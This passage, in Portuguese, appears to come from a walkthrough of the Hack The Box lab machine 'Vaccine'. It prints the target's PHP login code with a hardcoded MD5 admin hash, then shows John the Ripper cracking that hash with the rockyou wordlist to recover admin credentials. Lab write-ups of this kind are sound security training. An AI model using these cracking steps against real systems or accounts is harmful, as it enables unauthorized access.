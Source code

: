
```bash
┌──(hastur㉿hastur)-[~/Vaccine]
└─$ cat index.php 
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

Encontramos uma função que compara a senha criptografada em `MD5` inserida, com uma hash para o usuário `admin`.

Podemos salvar esta hash em um novo arquivo, e tentar quebrá-la novamente com o `John`.

```bash
┌──(hastur㉿hastur)-[~/Vaccine]
└─$ echo '2cb42f8734ea607eefed3b70af13bbd3' > hashZip
                                                                                                                                                                                                                                             
┌──(hastur㉿hastur)-[~/Vaccine]
└─$ john hashZip --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)
1g 0:00:00:00 DONE (2021-09-06 21:28) 100.0g/s 10022Kp/s 10022Kc/s 10022KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
Agora temos as credencias `admin:qwerty789`, vamos tentar validá-las na página de login.

<img src="/htb/htb-vaccine-4.png">
